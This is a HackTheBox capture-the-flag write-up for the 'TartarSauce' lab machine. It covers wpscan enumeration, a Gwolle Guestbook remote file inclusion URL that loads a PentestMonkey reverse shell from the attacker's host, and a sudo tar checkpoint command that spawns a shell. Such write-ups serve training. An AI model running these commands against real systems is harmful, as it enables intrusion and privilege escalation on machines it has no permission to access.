






# TartarSauce — HackTheBox (write-up)

**Difficulty:** Medium
**Box:** TartarSauce (HackTheBox)
**Author:** dkrxhn
**Date:** 2024-11-19

---

## TL;DR

### WordPress plugin (Gwolle Guestbook) RFI led to a shell as `www-data`. Lateral movement to `onuma` via sudo tar GTFOBins. Privesc through a root cron script called `backuperer` running every 5 minutes.
---
## Target info

- Host: `10.129.1.185`
- Services discovered via nmap
---
## Enumeration

Directory enumeration revealed several paths:

- `/webservices/tar/tar/source/`
- `/webservices/monstra-3.0.4/`
- `/webservices/easy-file-uploader/`
- `/webservices/developmental/`
- `/webservices/phpmyadmin/`



`admin:admin` worked on Monstra CMS but no upload function was working -- rabbit hole.

Ran wpscan with aggressive plugin detection:

```bash
wpscan --url http://10.129.1.185:80/webservices/wp -e ap --plugins-detection aggressive --api-token <token>
```







---
## Foothold

Used PHP PentestMonkey reverse shell, renamed to `wp-load.php` and hosted on a Python web server. Exploited Gwolle Guestbook RFI:

```
http://10.129.1.185/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.191/
```



---
## Lateral movement

GTFOBins + `sudo -u onuma`:

```bash
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

---
## Privesc

With pspy32, spotted a root cron script called `backuperer` running every 5 minutes:

- `CMD: UID=0 PID=24065 | /bin/bash /usr/sbin/backuperer`



---
## Lessons & takeaways

- Default creds on a CMS (Monstra) can be a rabbit hole even when they work -- if the functionality is broken, move on
- Always run wpscan with aggressive plugin detection; vulnerable plugins are a common entry point
- Use pspy to discover cron jobs and scripts running as root
---
